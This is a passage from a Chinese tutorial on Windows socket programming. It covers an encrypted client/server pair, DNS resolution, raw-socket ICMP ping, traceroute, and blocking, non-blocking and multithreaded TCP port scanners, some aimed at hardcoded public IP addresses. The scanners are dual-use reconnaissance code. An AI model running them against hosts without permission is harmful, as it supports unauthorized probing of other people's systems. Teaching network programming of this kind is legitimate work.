        // 接收数据并解密
        char * recv_data = RecvDecryptPage(&msgsock);
        std::cout << "获取包内数据: " << recv_data << std::endl;

        // 发送数据
        SendEncryptionPage(&msgsock, (char*)"ok");
        std::cout << std::endl;

        closesocket(msgsock);
    }
    closesocket(sock);
    WSACleanup();

    return 0;
}
```
针对客户端的主函数如下所示；
```c
int main(int argc, char* argv[])
{
    while (1)
    {
        WSADATA WSAData;
        SOCKET sock;
        struct sockaddr_in ClientAddr;

        if (WSAStartup(MAKEWORD(2, 0), &WSAData) != SOCKET_ERROR)
        {
            ClientAddr.sin_family = AF_INET;
            ClientAddr.sin_port = htons(9999);
            ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

            sock = socket(AF_INET, SOCK_STREAM, 0);
            int Ret = connect(sock, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr));
            if (Ret == 0)
            {
                // 发送数据
                char send_message[4096] = "hello lyshark";
                SendEncryptionPage(&sock, send_message);

                // 接收数据
                char* recv_data = RecvDecryptPage(&sock);
                std::cout << "接收数据包: " << recv_data << std::endl;
                std::cout << std::endl;
            }
        }
        closesocket(sock);
        WSACleanup();
        Sleep(5000);
    }
    return 0;
}
```

读者可自行将上述代码片段组合起来，并分别运行服务端与客户端，当运行后读者可看到如下图所示的输出信息；



## 第十五篇：主机路由追踪技术

本篇文章主要介绍了主机路由追踪技术，通过自己实现`ping`功能和路由探测，学习`TTL（Time to Live）`的知识。文章首先介绍了网络包的传输过程，然后讲解了`TTL`的作用和原理，TTL是网络协议IP中的一个字段，用于限制最大路由跳数。接着，文章通过实现ping命令学习了如何发送ICMP报文和如何设置TTL值，并展示了ping命令的输出结果。文章还介绍了路由探测的技术，这是一种通过向目标地址发送不同TTL值的网络包来追踪到目标地址所经过的所有路由器的方法。

### 15.1 通过域名取IP地址

首先我们来实现一个`DNS`查询功能，该功能的目的是传入一个网站域名自动将该域名解析为对应的`IP`地址，该功能的实现依赖于`gethostbyname`函数，该函数将主机名作为参数，并返回一个指向`hostent`类型结构的指针，结构包含有关主机的信息。结构包含许多字段，其中最重要的是`h_name`和`h_addr_list`。`h_name`是主机名，`h_addr_list`是一个指向具有主机`IP`地址的地址列表的指针。

hostent 是一个结构体，用于存储主机的基本信息，包括主机名、主机别名、IP 地址类型和地址列表等。

它的定义一般类似于以下：

```c
struct hostent {
   char  *h_name;            /* 官方主机名 */
   char **h_aliases;         /* 主机别名 */
   int    h_addrtype;        /* IP地址类型（IPv4或IPv6）*/
   int    h_length;          /* IP地址长度 */
   char **h_addr_list;       /* IP地址列表 */
};
```

其中，`h_name`字段是主机的官方名称，`h_aliases`字段是一个指向主机别名列表的指针，`h_addrtype` 字段指示地址类型（通常是 `AF_INET` 或 `AF_INET6`），`h_length` 字段是地址长度（通常为 4 或 16 字节），`h_addr_list` 字段是一个指向 `IP` 地址列表的指针。在 `IPv4` 中，`h_addr_list` 指向一个由网络字节顺序的 4 字节整数（即 `IPv4` 地址）组成的数组，而在 `IPv6` 中则是指向由 `16` 字节无符号整数组成的数组（即 `IPv6` 地址）。

```c
#include <iostream>
#include <WinSock2.h>
#include <IPHlpApi.h>
#include <IcmpAPI.h>

#pragma comment (lib,"iphlpapi.lib")
#pragma comment(lib, "ws2_32.lib")

// 传入域名返回该域名对应IP地址
CHAR* GetHostByName(char * HostName)
{
  WSADATA wsaData;
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    return "None";
  }

  // 获取当前主机结构体信息
  struct hostent *ptr = gethostbyname(HostName);
  if (!ptr)
  {
    return "None";
  }

  // 解析地址类型
  printf("地址类型: %s \n", (ptr->h_addrtype == AF_INET) ? "IPV4" : "IPV6");

  // 解析别名
  for (int i = 0; ptr->h_aliases[i]; i++)
  {
    printf("别名 [%d]: %s \n", i + 1, ptr->h_aliases[i]);
  }

  // 解析IP地址列表
  for (int i = 0; ptr->h_addr_list[i]; i++)
  {
    printf("IP地址 [%d]: %s \n", i + 1, inet_ntoa(*(struct in_addr*)ptr->h_addr_list[i]));
  }

  WSACleanup();

  if (ptr)
  {
    in_addr inAddr;
    ULONG addr = *(u_long *)ptr->h_addr_list[0];
    inAddr.s_addr = addr;

    // 返回IP地址
    return inet_ntoa(inAddr);
  }

  return "None";
}

int main(int argc, char *argv[])
{
  char * HostAddress = GetHostByName("www.lyshark.com");
  printf("网站IP地址 = %s \n", HostAddress);
  system("pause");
  return 0;
}
```

### 15.2 主机探测与路由追踪

Ping 使用 `Internet` 控制消息协议（`ICMP`）来测试主机之间的连接。当用户发送一个 `ping` 请求时，则对应的发送一个 `ICMP Echo` 请求消息到目标主机，并等待目标主机回复一个 `ICMP Echo` 回应消息。如果目标主机接收到请求并且网络连接正常，则会返回一个回应消息，表示主机之间的网络连接是正常的。如果目标主机没有收到请求消息或网络连接不正常，则不会有回应消息返回。

Ping 工作的步骤如下：

 - Ping发送一个`ICMP Echo`请求消息到目标主机。
 - 目标主机接收到请求消息后，检查消息中的目标`IP`地址是否正确，并回复一个`ICMP Echo`回应消息表示收到请求。
 - Ping接收到回应消息后，并计算从发送到接收的时延（即往返时间 RTT）和丢包率等统计信息，然后输出到命令行上。
 - Ping不断进行第1到第3步的操作，直到达到指定的停止条件（如发送一定数量的请求或持续一定的时间等）为止。

Ping的实现依赖于`ICMP`协议，Internet控制消息协议（Internet Control Message Protocol，简称 ICMP）是一种在`IP`网络上发送控制消息的协议。主要是用于在 `IP` 网络上进行错误处理和诊断。ICMP协议是运行在网络层的协议，它的主要作用是向源主机和目标主机发送控制消息，帮助网络诊断和监控。这些控制消息通常是由网络设备（如路由器、交换机、防火墙等）生成或捕获，并在整个网络传输。

ICMP协议的消息格式通常由两个部分组成：消息头和数据。其中，消息头包含以下字段：

 - 消息类型（Type）：指示消息的类型（如 Echo 请求、Echo 回应、目标不可达、重定向等）
 - 代码（Code）：指示消息的子类型或错误代码
 - 校验和（Checksum）：用于检查消息是否被篡改
 - 消息体（Payload）：包含特定类型消息所需的数据，如 IP 数据报片段、Echo 请求消息等

ICMP 协议中常见的消息类型包括：

 - Echo 请求（Ping）和 Echo 回应：用于测试主机之间的连通性和计算往返时间（RTT）
 - 目标不可达：通知源主机无法到达某个目标主机或网络
 - 重定向：用于通知主机更改路由器或网关
 - 时间超时：通知主机数据包已超过了最大存活期
 - 地址掩码请求和地址掩码回应：用于向主机查询和设置子网掩码

在`Windows`平台下要实现`Ping`命令有多种方法，首先我们先来讲解第一种实现方式，通过自己构造`ICMP`数据包并发包实现，首先该功能的实现需要定义一个`icmp_header`头部，并定义好所需要的发送与回应定义，如下所示；
```c
// ICMP头部定义部分
struct icmp_header
{
  unsigned char icmp_type;           // 消息类型
  unsigned char icmp_code;           // 代码
  unsigned short icmp_checksum;      // 校验和
  unsigned short icmp_id;            // ICMP唯一ID
  unsigned short icmp_sequence;      // 序列号
  unsigned long icmp_timestamp;      // 时间戳
};

// 计算出ICMP头部长度
#define ICMP_HEADER_SIZE sizeof(icmp_header)

// ICMP回送请求消息代码
#define ICMP_ECHO_REQUEST 0x08

// ICMP回送响应消息代码
#define ICMP_ECHO_REPLY 0x00
```

当有了结构体定义那么接着就需要实现一个`ICMP`校验和的计算方法，`ICMP`报文检验和是一种用于检测 `ICMP` 报文数据正确性的校验和。它是 `ICMP` 协议中一种重要的错误检测机制，用于验证发送和接收的 `ICMP` 报文的数据是否完整、正确。

校验和计算方法如下：

 - 将要计算校验和的数据（即 ICMP 报文）按照16位为一组进行分组
 - 把所有的 16 位数字相加并加上进位，得到一个数
 - 若上一步和的高位不为零，则把进位加到低位上，重复步骤 2
 - 对累加后的结果进行二进制反转
 - 得到校验和值，将其放置于 ICMP 报文的校验和字段中

当 `ICMP` 接收到 `ICMP` 报文时，将立即计算校验和，比对接收到的校验和值与计算所得的校验和值是否相同，从而决定 `ICMP` 报文是否正确接收及响应。这样做的好处是可以有效地检测数据在传输过程中的误码、中间路由设备的错误操作等问题，保障 `ICMP` 报文的正确性。

根据上述描述，计算校验和`CheckSum`函数，首先对报文的数据进行分组，并依次计算每个`16`位数字的和。当相加的结果有进位时，将进位加到低位上，并将进位部分加到下一组中。处理完所有数字之后，还需要对结果进行二进制反转，得到最终的校验和值。

```c
// 计算校验和
unsigned short CheckSum(struct icmp_header *picmp, int len)
{
  long sum = 0;
  unsigned short *pusicmp = (unsigned short *)picmp;

  // 将数据按16位分组，相邻的两个16位取出并相加，直到处理完所有数据
  while (len > 1)
  {
    sum += *(pusicmp++);

    // 如果相加的结果有进位，则将进位加到低16位上
    if (sum & 0x80000000)
    {
      sum = (sum & 0xffff) + (sum >> 16);
    }

    // 减去已经处理完的字节数
    len -= 2;
  }

  // 如果数据的字节数为奇数，则将最后一个字节视为16位，高8位设为0，低8位取余部分。
  if (len)
  {
    sum += (unsigned short)*(unsigned char *)pusicmp;
  }

  // 如果计算完校验和后还有进位，则将进位加到低16位上
  while (sum >> 16)
  {
    sum = (sum & 0xffff) + (sum >> 16);
  }

  // 取反得到最终的校验和
  return (unsigned short)~sum;
}
```

接着就是实现ICMP测试函数，如下函数首先进行初始化，并创建原始套接字，然后构造 `ICMP` 报文，计算报文的校验和。接着发送 `ICMP` 报文，并接收 `ICMP` 回复报文，解析其中的信息，判断延迟超时，最后返回 `ping` 测试结果。

发送 `ICMP` 报文使用 `sendto` 函数，第一个参数是原始套接字，第二个参数是 `ICMP` 报文数据缓存区，第三个参数是缓存区的长度，第四个参数是标志，第五个参数是目的地址信息。接收 `ICMP` 回复报文使用 `recvfrom` 函数，第一个参数和第五个参数与 `sendto` 函数相同。函数返回时，判断接收到的 `IP` 地址是否与发送 `ICMP` 报文的 `IP` 地址相同，如果相同，解析 `ICMP` 回复报文中的信息并返回 `true`，否则返回 `false`。

在 `ICMP` 报文构造中，使用了 `Winsock` 函数库中的 `inet_addr` 将 `IP` 地址转换为网络字节序。在计算 `ICMP` 报文的校验和时，调用了 `CheckSum` 函数。

```c
BOOL MyPing(char *szDestIp)
{
  BOOL bRet = TRUE;
  WSADATA wsaData;
  int nTimeOut = 1000;
  char szBuff[ICMP_HEADER_SIZE + 32] = { 0 };
  icmp_header *pIcmp = (icmp_header *)szBuff;
  char icmp_data[32] = { 0 };

  // 初始化Winsock动态链接库
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // 创建原始套接字
  SOCKET s = socket(PF_INET, SOCK_RAW, IPPROTO_ICMP);

  // 设置接收超时
  setsockopt(s, SOL_SOCKET, SO_RCVTIMEO, (char const*)&nTimeOut, sizeof(nTimeOut));

  // 设置目的地址
  sockaddr_in dest_addr;
  dest_addr.sin_family = AF_INET;
  dest_addr.sin_addr.S_un.S_addr = inet_addr(szDestIp);
  dest_addr.sin_port = htons(0);

  // 构造ICMP封包
  pIcmp->icmp_type = ICMP_ECHO_REQUEST;
  pIcmp->icmp_code = 0;
  pIcmp->icmp_id = (USHORT)::GetCurrentProcessId();
  pIcmp->icmp_sequence = 0;
  pIcmp->icmp_timestamp = 0;
  pIcmp->icmp_checksum = 0;

  // 拷贝ICMP协议中附带的数据
  memcpy((szBuff + ICMP_HEADER_SIZE), "abcdefghijklmnopqrstuvwabcdefghi", 32);

  // 计算校验和
  pIcmp->icmp_checksum = CheckSum((struct icmp_header *)szBuff, sizeof(szBuff));

  // 接收ping返回的ICMP数据包
  sockaddr_in from_addr;
  char szRecvBuff[1024];
  int nLen = sizeof(from_addr);

  // 发送UDP数据包
  sendto(s, szBuff, sizeof(szBuff), 0, (SOCKADDR *)&dest_addr, sizeof(SOCKADDR));

  // 等待响应
  recvfrom(s, szRecvBuff, MAXBYTE, 0, (SOCKADDR *)&from_addr, &nLen);

  // 判断接收到的是否是自己请求的地址
  if (lstrcmp(inet_ntoa(from_addr.sin_addr), szDestIp))
  {
    bRet = FALSE;
  }
  else
  {
    // 如果是自己请求的地址，则解析 ICMP 回复报文中的信息
    struct icmp_header *pIcmp1 = (icmp_header *)(szRecvBuff + 20);
    printf("%s \r\n", inet_ntoa(from_addr.sin_addr));
  }

  return bRet;
}
```

当读者有了上述函数封装那么实现Ping测试将变得很容易，首先如下调用实例中，通过`GetHostByName`函数获取到对应域名的IP地址信息返回字符串，并将该字符串传入`MyPing`函数内，该函数会测试当前主机是否可通信，如果可以返回状态值1，否则返回0。

```c
int main(int argc, char **argv)
{
  // 获得指定网址的IP地址
  char * ptr = GetHostByName("www.lyshark.com");

  // 开始测试
  for (size_t i = 0; i < 5; i++)
  {
    int ret = MyPing(ptr);
    printf("测试结果 = %d \n", ret);
  }

  system("pause");
  return 0;
}
```

运行代码后读者可看到如下图所示的提示信息；



除了通过自己封装接口外，Windows系统中还为我们提供了一个专用函数`IcmpSendEcho`，该函数用于通过 `ICMP` 协议向远程主机发送 `Echo` 请求并接收 `Echo` 回复。如果发送 `Echo` 请求并成功接收 `Echo` 回复，则函数返回值为非零，否则为零。

该函数的声明如下：
```c
BOOL IcmpSendEcho
(
  HANDLE IcmpHandle, 
  IPAddr DestinationAddress, 
  LPVOID RequestData, 
  WORD RequestSize, 
  PIP_OPTION_INFORMATION RequestOptions, 
  LPVOID ReplyBuffer, 
  DWORD ReplySize, 
  DWORD Timeout
  );
```
函数参数：

 - IcmpHandle：一个有效的 ICMP 句柄
 - DestinationAddress：目标地址，可以是 IP 地址（IPAddr）或主机名（LPCSTR）
 - RequestData：指向要发送的数据的指针
 - RequestSize：要发送的数据的大小（以字节为单位）
 - RequestOptions：指向 IP 选项的信息（IP_OPTION_INFORMATION）
 - ReplyBuffer：指向缓冲区，该缓冲区将用于存储接收到的回复
 - ReplySize：存储在回复缓冲区中的数据的大小（以字节为单位）
 - Timeout：请求超时之前等待回复的时间（以毫秒为单位）

如下函数则是通过`IcmpCreateFile`和`IcmpSendEcho`函数实现的Ping测试，函数首先将 `IP` 地址转换为网络字节序，创建 `ICMP` 句柄并初始化 `IP` 选项信息。然后，设置要发送的 `ICMP` 数据报文，和接收 `ICMP` 数据报文的大小和缓冲区。接着发送 `ICMP` 数据报文，等待接收回复，并将回复解析为 `ICMP_ECHO_REPLY` 结构体。最后，判断回复的状态，如果不为 `0` 则返回失败，否则输出回复信息并返回成功。
```c
// 调用API实现ping
bool IcmpPing(char *Address)
{
  // 设置超时为1000ms
  DWORD timeOut = 1000;

  // IP地址转为网络字节序
  ULONG hAddr = inet_addr(Address);
  HANDLE handle = IcmpCreateFile();

  IP_OPTION_INFORMATION ipoi;
  memset(&ipoi, 0, sizeof(IP_OPTION_INFORMATION));

  // Time-To-Live
  ipoi.Ttl = 64;

  // 设置发送数据包
  unsigned char SendData[32] = { "send icmp pack" };
  int repSize = sizeof(ICMP_ECHO_REPLY)+32;
  
  // 设置接收数据包
  unsigned char pReply[128];
  ICMP_ECHO_REPLY* pEchoReply = (ICMP_ECHO_REPLY*)pReply;

  // 发送ICMP数据报文
  DWORD nPackets = IcmpSendEcho(handle, hAddr, SendData, sizeof(SendData), &ipoi, pReply, repSize, timeOut);

  if (pEchoReply->Status != 0)
  {
    IcmpCloseHandle(handle);
    return false;
  }

  in_addr inAddr;
  inAddr.s_addr = pEchoReply->Address;
  printf("回复地址: %13s 状态: %1d 初始TTL: %3d 回复: TTL: %3d \n",
    inet_ntoa(inAddr), pEchoReply->Status, ipoi.Ttl, pEchoReply->Options.Ttl);
  return true;
}
```

该段代码的调用与上述一致，读者只需要传入主机IP地址的字符串即可，具体调用实现如下所示；
```c
int main(int argc, char *argv[])
{
  // 解析域名
  char * HostAddress = GetHostByName("www.lyshark.com");
  printf("网站IP地址 = %s \n", HostAddress);

  // 调用Ping
  for (int x = 0; x < 3; x++)
  {
    IcmpPing(HostAddress);
    Sleep(1000);
  }

  system("pause");
  return 0;
}
```

运行代码后读者可看到如下图所示的提示信息；



通过使用`Ping`命令我们还可以实现针对主机路由的追踪功能，路由追踪功能的原理是，它实际上是发送一系列`ICMP`数据包，数据包每经过一个路由节点则TTL值会减去1，假设`TTL`值等于0时数据包还没有到达目标主机，那么该路由则会回复给目标主机一个数据包不可达，由此我们就可以获取到目标主机的IP地址。

其跟踪原理如下:

 - 1.一开始发送一个`TTL`为1的包，这样到达第一个路由器的时候就已经超时了，第一个路由器就会返回一个`ICMP`通知，该通知包含了对端的`IP`地址，这样就能够记录下所经过的第一个路由器的IP。
 - 2.然后将`TTL`加1，让其能够安全的通过第一个路由器，而第二个路由器的的处理过程会自动丢包，发通知说包超时了，这样记录下第二个路由器IP，由此能够一直进行下去，直到这个数据包到达目标主机，由此打印出全部经过的路由器。

由上述流程并配合使用`IcmpSendEcho`函数设置默认最大跳数为64，通过不间断的循环即可输出本机数据包到达目标之间的所有路由信息，代码片段如下所示；
```c
// 实现路由跟中
void Tracert(char *Address)
{
  ULONG hAddr = inet_addr(Address);
  HANDLE handle = IcmpCreateFile();

  IP_OPTION_INFORMATION ipoi;
  memset(&ipoi, 0, sizeof(IP_OPTION_INFORMATION));

  unsigned char SendData[32] = { "send ttl pack" };
  int repSize = sizeof(ICMP_ECHO_REPLY)+32;
  unsigned char pReply[128];
  ICMP_ECHO_REPLY* pEchoReply = (ICMP_ECHO_REPLY*)pReply;

  for (int ttl = 1; ttl < 64; ttl++)
  {
    ipoi.Ttl = ttl;
    DWORD nPackets = IcmpSendEcho(handle, hAddr, SendData, sizeof(SendData), &ipoi, pReply, repSize, 1000);

    if (pEchoReply->Status != 0)
    {
      in_addr inAddr;
      inAddr.s_addr = pEchoReply->Address;
      printf("-> 第 %2d 跳 --> 地址: %15s -> TTL: %2d \n", ttl, inet_ntoa(inAddr), pEchoReply->Options.Ttl);
    }
  }
  IcmpCloseHandle(handle);
}
```

上述代码读者可自行运行并传入`Tracert(HostAddress)`被测试主机IP地址，即可输出当前经过路由的完整信息，如果路由`TTL`为0则可能是对端路由过滤掉了`ICMP`请求，如下图所示；



## 第十六篇：端口探测扫描技术

端口扫描是一种网络安全测试技术，该技术可用于确定对端主机中开放的服务，从而在渗透中实现信息搜集，其主要原理是通过发送一系列的网络请求来探测特定主机上开放的`TCP/IP`端口。具体来说，端口扫描程序将从指定的起始端口开始，向目标主机发送一条`TCP`或`UDP`消息（这取决于端口的协议类型）。如果目标主机正在监听该端口，则它将返回一个确认消息，这表明该端口是开放的。如果没有响应，则说明该端口是关闭的或被过滤。

首先我们来了解一下阻塞与非阻塞模式：

 - 阻塞模式是指当I/O操作无法立即完成时，应用程序会阻塞并等待操作完成。例如，在使用阻塞套接字接收数据时，如果没有数据可用，则调用函数将一直阻塞，直到有数据可用为止。在这种模式下，I/O操作将会一直阻塞应用程序的进程，因此无法执行其他任务。

 - 非阻塞模式是指当I/O操作无法立即完成时，应用程序会立即返回并继续执行其他任务。例如，在使用非阻塞套接字接收数据时，如果没有数据可用，则调用函数将立即返回，并指示操作正在进行中，同时应用程序可以执行其他任务。在这种模式下，应用程序必须反复调用I/O操作以检查其完译状态，这通常是通过轮询或事件通知机制实现的。非阻塞模式允许应用程序同时执行多个任务，但每个I/O操作都需要增加一定的额外开销。

### 16.1 实现Socket端口探测

要实现端口探测我们可以通过`connect()`这个函数来实现，利用`connect`函数实现端口开放检查的原理是通过`TCP`协议的三次握手过程来探测目标主机是否开放目标端口。

在`TCP`协议的三次握手过程中，客户端向服务器发送一个`SYN`标志位的`TCP`数据包。如果目标主机开放了目标端口并且正在监听连接请求，则服务器会返回一个带有`SYN`和`ACK`标志位的`TCP`数据包，表示确认连接请求并请求客户端确认。此时客户端回应一个`ACK`标志位的`TCP`数据包，表示确认连接请求，并建立了一个到服务器端口的连接。此时客户端和服务器端之间建立了一个`TCP`连接，可以进行数据传输。

如果目标主机没有开放目标端口或者目标端口已经被占用，则服务器不会响应客户端的`TCP`数据包，客户端会在一定时间后收到一个超时错误，表示连接失败。

因此，通过调用`connect`函数，可以向目标主机发送一个`SYN`标志位的`TCP`数据包并等待服务器响应，从而判断目标端口是否开放。如果`connect`函数返回0，则表示连接成功，目标端口开放；否则，连接失败，目标端口未开放或目标主机不可达。

```c
// 探测网络端口开放情况
BOOL PortScan(char *Addr, int Port)
{
  WSADATA wsd;
  SOCKET sHost;
  SOCKADDR_IN servAddr;

  // 初始化套接字库
  if (WSAStartup(MAKEWORD(2, 2), &wsd) != 0)
  {
    return FALSE;
  }

  // 创建套接字
  sHost = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  if (INVALID_SOCKET == sHost)
  {
    return FALSE;
  }

  // 设置连接地址和端口
  servAddr.sin_family = AF_INET;
  servAddr.sin_addr.S_un.S_addr = inet_addr(Addr);
  servAddr.sin_port = htons(Port);

  // 连接测试
  int retval = connect(sHost, (LPSOCKADDR)&servAddr, sizeof(servAddr));
  if (retval != SOCKET_ERROR)
  {
    return TRUE;
  }

  WSACleanup();
  closesocket(sHost);
  return FALSE;
}

int main(int argc, char* argv[])
{
  int port_list[] = { 80, 443, 445, 135, 139, 445 };
  int port_size = sizeof(port_list) / sizeof(int);

  for (int x = 0; x < port_size; x++)
  {
    int ret = PortScan("8.141.58.64", port_list[x]);
    printf("循环次数: %d 端口: %d 状态: %d \n", x + 1, port_list[x], ret);
  }

  system("pause");
  return 0;
}
```

上述代码片段则是一个简单的端口探测案例，当运行后程序会调用`connect`函数向目标主机发送一个`SYN`标志位的`TCP`数据包，探测目标端口是否开放。如果目标主机响应带有`SYN`和`ACK`标志位的`TCP`数据包，则表示连接请求成功并请求确认，操作系统在自动发送带`ACK`标志位的`TCP`数据包进行确认，建立`TCP`连接；

如果目标主机没有响应或者响应带有`RST`标志位的`TCP`数据包，则表示连接请求失败，目标端口为未开放状态。通过此方式，程序可以快速检测多个端口是否开放，该程序运行后输出效果如下图所示；



上述代码虽然可以实现端口扫描，但是读者应该会发现此方法扫描很慢，这是因为扫描器每次只能链接一个主机上的端口只有当`connect`函数返回后才会执行下一次探测任务，而如果需要提高扫描效率那么最好的方法是采用非阻塞的扫描模式，使用非阻塞模式我们可以在不使用多线程的情况下提高扫描速度。

非阻塞模式所依赖的核心函数为`select()`函数是一种用于多路`I/O`复用的系统调用，在`Windows`中提供了对该系统调用的支持。`select()`函数可以同时监听多个文件或套接字（`socket`）的可读、可写和出错状态，并返回有状态变化的文件或套接字的数量，在使用该函数时读者应率先调用`ioctlsocket()`函数，并设置`FIONBIO`套接字为非阻塞模式。

select 函数的基本语法如下：

```c
int select(int nfds, fd_set *readfds, fd_set *writefds, fd_set *exceptfds, struct timeval *timeout);
```

参数解释：

 - nfds：需要监听的文件或套接字最大编号加1
 - readfds：可读文件或套接字集合
 - writefds：可写文件或套接字集合
 - exceptfds：出错文件或套接字集合
 - timeout：超时时间，如果为NULL，则表示一直等待直到有事件发生

select 函数会阻塞进程，直到在需要监听的文件或套接字中有一个或多个文件或套接字发送了需要监听的事件，或者超时时间到达。当`select()`函数返回时，可以通过`fd_set`集合来查询有状态变化的文件或套接字。

select 函数的原理是将调用进程的文件或套接字加入内核监测队列，等待事件发生。当某个文件或套接字有事件发生时，内核会将其添加到内核缓冲区中，同时在返回时告诉进程有哪些套接字可以进行`I/O`操作，进程再根据文件或套接字的状态进行相应的处理。使用`select()`函数可以大大提高`I/O`操作的效率，减少资源占用。

如下代码实现的是一段简单的端口扫描程序，用于检查目标主机的一段端口范围内是否有端口处于开放状态。该函数中通过设置`fd_set`类型的掩码（`mask`）并加入套接字，使用select()函数查询该套接字的可写状态，并设置超时时间为1毫秒，如果返回值为0，则目标端口未开放，继续下一个端口的扫描。如果返回值为正数，则目标端口已成功连接（开放），输出扫描结果并继续下一个端口的扫描。

该代码中使用了非阻塞套接字和`select()`函数的组合来实现非阻塞IO。非阻塞套接字可以使程序不会在等待数据到来时一直阻塞，而是可以在等待数据到来的同时进行其他操作，从而提高程序的效率。`select()`函数则可以同时等待多个套接字的数据到来，从而使程序更加高效地进行`I/O`操作。

```c
// 非阻塞端口探测
void PortScan(char *address, int StartPort, int EndPort)
{
  SOCKADDR_IN ServAddr;
  TIMEVAL TimeOut;
  FD_SET mask;

  TimeOut.tv_sec = 0;

  // 设置超时时间为500毫秒
  TimeOut.tv_usec = 1000;
  // 指定模式
  unsigned long mode = 1;

  // 循环扫描端口
  for (int port = StartPort; port <= EndPort; port++)
  {
    SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    ServAddr.sin_family = AF_INET;
    ServAddr.sin_addr.S_un.S_addr = inet_addr(address);
    ServAddr.sin_port = htons(port);

    FD_ZERO(&mask);
    FD_SET(sock, &mask);

    // 设置为非阻塞模式
    ioctlsocket(sock, FIONBIO, &mode);
    connect(sock, (struct sockaddr *)&ServAddr, sizeof(ServAddr));

    // 查询可写入状态 如果不为0则说明这个端口是开放的
    int ret = select(0, 0, &mask, 0, &TimeOut);
    if (ret != 0 && ret != -1)
    {
      printf("扫描地址: %-13s --> 端口: %-5d --> 状态: [Open] \n", address, port);
    }
    else
    {
      printf("扫描地址: %-13s --> 端口: %-5d --> 状态: [Close] \n", address, port);
    }
  }
}

int main(int argc, char *argv[])
{
  char *Addr[2] = { "192.168.1.1", "192.168.1.10" };

  WSADATA wsa;
  if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
  {
    exit(0);
  }

  for (int x = 0; x < 2; x++)
  {
    PortScan(Addr[x], 1, 255);
  }

  WSACleanup();

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码片段，默认会扫描`Addr[2]`数组内的两个IP地址的`1-255`端口范围开放情况，读者可感觉到效率上变得快了许多，输出效果如下图所示；



上述代码虽然增加的扫描速度但是还可以进一步优化，我们可以通过增加信号机制，通过使用信号可以很好的控制扫描并发连接数，增加了线程控制将会使扫描器更加稳定，同时我们还引用了多线程模式，通过两者的结合可以极大的提高扫描质量和效率。

基于信号的端口扫描，也称为异步`IO`端口扫描，是一种高效的端口扫描技术，可以利用操作系统的信号机制提高网络`I/O`的效率。基于信号的端口扫描具有非阻塞和异步的特性，可以最大限度地提高网络I/O效率，同时在大并发量下表现出更好的性能。但是，使用时需要小心处理信号的相关问题，避免死锁和数据不一致。

```c
#include <stdio.h>
#include <winsock2.h>

#pragma comment (lib, "ws2_32")

typedef struct _THREAD_PARAM
{
  char *HostAddr;             // 扫描主机
  DWORD dwStartPort;          // 端口号
  HANDLE hEvent;              // 事件句柄
  HANDLE hSemaphore;          // 信号量句柄
}THREAD_PARAM;

// 最大线程数,用于控制信号量数量
#define MAX_THREAD 10

// 线程扫描函数
DWORD WINAPI ScanThread(LPVOID lpParam)
{
  // 拷贝传递来的扫描参数
  THREAD_PARAM ScanParam = { 0 };
  MoveMemory(&ScanParam, lpParam, sizeof(THREAD_PARAM));

  // 设置信号
  SetEvent(ScanParam.hEvent);

  WSADATA wsa;
  WSAStartup(MAKEWORD(2, 2), &wsa);

  // 初始化套接字
  SOCKET s = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);
  sockaddr_in sockaddr;

  // 填充扫描地址与端口
  sockaddr.sin_family = AF_INET;
  sockaddr.sin_addr.S_un.S_addr = inet_addr(ScanParam.HostAddr);
  sockaddr.sin_port = htons(ScanParam.dwStartPort);

  // 开始连接
  if (connect(s, (SOCKADDR*)&sockaddr, sizeof(SOCKADDR)) == 0)
  {
    printf("地址: %-16s --> 端口: %-5d --> 信号量: %-5d 状态: [Open] \n",
      ScanParam.HostAddr, ScanParam.dwStartPort, ScanParam.hSemaphore);
  }
  else
  {
    printf("地址: %-16s --> 端口: %-5d --> 信号量: %-5d 状态: [Close] \n",
      ScanParam.HostAddr, ScanParam.dwStartPort, ScanParam.hSemaphore);
  }

  closesocket(s);
  WSACleanup();

  // 释放一个信号量
  ReleaseSemaphore(ScanParam.hSemaphore, 1, NULL);
  return 0;
}

int main(int argc, char *argv[])
{
  // 线程参数传递
  THREAD_PARAM ThreadParam = { 0 };

  // 设置线程信号
  SetEvent(ThreadParam.hEvent);

  // 创建事件
  HANDLE hEvent = CreateEvent(NULL, TRUE, FALSE, NULL);

  // 创建信号
  HANDLE hSemaphore = CreateSemaphore(NULL, MAX_THREAD, MAX_THREAD, NULL);

  ThreadParam.hEvent = hEvent;
  ThreadParam.hSemaphore = hSemaphore;
  ThreadParam.HostAddr = "59.110.117.109";

  for (DWORD port = 1; port < 4096; port++)
  {
    // 判断信号量
    DWORD dwWaitRet = WaitForSingleObject(hSemaphore, 200);
    if (dwWaitRet == WAIT_OBJECT_0)
    {
      ThreadParam.dwStartPort = port;

      // 启动扫描线程
      HANDLE hThread = CreateThread(NULL, 0, ScanThread, (LPVOID)&ThreadParam, 0, NULL);

      // 等待事件
      WaitForSingleObject(hEvent, INFINITE);

      // 重置信号
      ResetEvent(hEvent);
    }
    else if (dwWaitRet == WAIT_TIMEOUT)
    {
      continue;
    }
  }

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码，将对特定IP地址进行端口探测，每次启用10个线程，即实现了控制线程并发，又实现了端口多线程扫描效果，如下图所示；



### 16.2 实现ARP主机探测

ARP （Address Resolution Protocol，地址解析协议），是一种用于将 `IP` 地址转换为物理地址（`MAC地址`）的协议。它在 `TCP/IP` 协议栈中处于链路层，为了在局域网中能够正确传输数据包而设计，由协议数据单元和对应的操作命令组成。`ARP` 既可以由操作系统处理，也可以由网卡处理。

ARP 协议的作用是通过一个局域网上的互联网协议(IP)地址来查询对应的物理硬件地址，如数据包发送到路由器时，ARP 协议将使用嵌入在数据包中的目的 IP 地址查找对应的物理地址，路由器根据获取的 MAC 地址转发数据包到下一个网络。

ARP协议的工作过程如下：

 - 主机A通过查找其ARP缓存表，比对目标的IP地址是否存在于ARP缓存表中。
 - 如果目标机器的IP地址不存在于本地ARP缓存表中，则主机A需要进行ARP请求过程，它广播一个ARP请求。
 - 当其他主机收到这个请求时，它会比对主机A设置的这个目标IP地址和自己的IP地址是否一致。
